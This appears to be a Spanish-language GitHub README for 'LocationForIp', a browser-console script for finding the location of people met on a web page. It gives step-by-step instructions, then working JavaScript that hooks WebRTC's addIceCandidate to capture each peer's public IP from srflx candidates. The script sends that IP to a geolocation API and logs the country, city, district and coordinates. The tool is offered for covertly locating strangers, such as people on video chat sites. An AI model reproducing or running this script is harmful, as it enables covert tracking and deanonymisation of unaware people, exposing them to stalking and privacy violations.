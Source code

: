 # LocationForIp
Location program to find the person with the ip

1 Buscar tu apiKey en la siguiente pagina: https://app.ipgeolocation.io/ <br />
2 logueate y te aparecera tu apiKey <br />
3 Abrir la pagina donde quieres ubicar a las personas por IP <br />
4 apreta F12 o abre el inspeccionar de google chrome  <br />
5 abre la segunda pestaña que dice console <br />
6 copia y pega el siguiente codigo en la terminal y pulsa enter  <br />
7 cada vez que detecte un ip encontra a la persona <br />

```

let apiKey = "YOUR API KEY";
 
window.oRTCPeerConnection =
  window.oRTCPeerConnection || window.RTCPeerConnection;
 
window.RTCPeerConnection = function (...args) {
  const pc = new window.oRTCPeerConnection(...args);
 
  pc.oaddIceCandidate = pc.addIceCandidate;
 
  pc.addIceCandidate = function (iceCandidate, ...rest) {
    const fields = iceCandidate.candidate.split(" ");
 
    console.log(iceCandidate.candidate);
    const ip = fields[4];
    if (fields[7] === "srflx") {
      getLocation(ip);
    }
    return pc.oaddIceCandidate(iceCandidate, ...rest);
  };
  return pc;
};
 
let getLocation = async (ip) => {
  let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
 
  await fetch(url).then((response) =>
    response.json().then((json) => {
      const output = `
          ---------------------
          Country: ${json.country_name}
          State: ${json.state_prov}
          City: ${json.city}
          District: ${json.district}
          Lat / Long: (${json.latitude}, ${json.longitude})
          ---------------------
          `;
      console.log(output);
    })
  );
};
```
